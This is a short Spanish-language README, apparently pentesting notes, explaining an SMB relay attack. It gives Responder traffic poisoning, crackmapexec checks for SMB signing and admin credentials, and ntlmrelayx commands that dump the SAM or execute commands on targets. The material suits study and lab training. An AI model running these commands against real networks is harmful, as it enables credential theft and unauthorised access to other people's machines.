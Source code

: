 # Qué es un SMB Relay?

- En vez de crackear hashes obtenidos con el Repsonder, podemos pasar esos hashes a alguna máquina específica para ganar acceso.
- Es necesario que el SMB no esté firmado para que no se de validado la legitimdad del origen.
- Las credenciales que se le pasen a un equipo deben ser de un Administrador del mismo.

# Explicación gráfica del vector de ataque

[Ver la imagen](Images/main/README.md)

# Como ver si el smb está fimado

```
crackmapexec smb <target>
```

[Ver Ejemplo](Images/firma/README.md)


# Comprobar si tus credenciales son privilegiadas sobre un equipo

```
crackmapexec smb <target> -u 'USUARIO' -p 'CONTRASEÑA'
```
[Ver Ejemplo](Images/creds/README.md)


# Configurar Responder para SMB Relay
HTTP y SMB deben estar en Off en la configuración del Responder

```
sudo nano /usr/share/responder/Responder.conf
```
<img src="https://i.imgur.com/XypgqGB.png" />

# Efectuar un SMB Relay por IPv4
El Responder debe estar activo envenenando el tráfico de la red,
```
python /usr/share/responder.py -I tun0 -rdw
```
```
ntlmrelayx.py -tf <targets.txt> -smb2support
```
[Ver Ejemplo de dumpeo de SAM](Images/sam/README.md)

# Ejecutar comandos mediante un SMB Relay por IPv4
```
ntlmrelayx.py -tf <targets.txt> -smb2support
```
